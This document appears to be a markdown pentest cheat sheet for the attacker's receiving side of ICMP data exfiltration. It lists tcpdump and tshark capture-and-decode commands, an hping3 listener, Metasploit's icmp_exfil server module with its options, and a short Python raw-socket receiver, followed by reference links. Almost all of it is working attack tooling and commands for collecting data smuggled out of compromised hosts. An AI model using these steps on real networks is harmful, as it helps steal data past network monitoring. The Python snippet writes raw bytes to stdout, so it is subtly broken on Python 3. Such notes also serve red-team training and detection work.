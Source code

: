 # Server

## 01 - TCPDump

```
$ tcpdump -i <interface> "icmp and src host <target_IP>" -w file.pcap
```

## 02 - Hping3

The receiver

```
# hping3 -I eth0 --listen <server_IP> --sign MSGID1
```

To extract the data.

```
$ tshark -n -q -r file.pcap -T fields -e data.data | tr -d "\n" | tr -d ":" > hex.txt

$ basenc -d --base16 hex.txt
```

## 03 - Metasploit

```
msf > use auxiliary/server/icmp_exfil

msf auxiliary(server/icmp_exfil) > options

Module options (auxiliary/server/icmp_exfil):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   BPF_FILTER       icmp             yes       BFP format filter to listen for
   END_TRIGGER      ^EOF             yes       Trigger for end of file
   FNAME_IN_PACKET  true             yes       Filename presented in first packet straight after START_TRIGGER
   INTERFACE                         no        The name of the interface
   RESP_CONT        OK               yes       Data ro resond when continuation of data expected
   RESP_END         COMPLETE         yes       Data to response when EOF received and data saved
   RESP_START       SEND             yes       Data to respond when initial trigger matches
   START_TRIGGER    ^BOF             yes       Trigger for beginning of file


View the full module info with the info, or info -d command.

msf auxiliary(server/icmp_exfil) > set interface <interface>

msf auxiliary(server/icmp_exfil) > set icmp and not src <target_IP>

msf auxiliary(server/icmp_exfil) > run -j
```

## 04 - Python Script

```python
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
while True:
    data, src = s.recvfrom(1600)
    payload = data[44:60]
    sys.stdout.write(payload)
```

---
## References

### Command Line Kung Fu

- [Command Line Kung Fu: Exfiltration Nation](http://blog.commandlinekungfu.com/2012/01/episode-164-exfiltration-nation.html)

### Ic3M4n

- [Ic3M4n: Can You Hack It - Quick Tips - Data Exfil Over ICMP](https://www.youtube.com/watch?v=IQwl3ZE0rK0)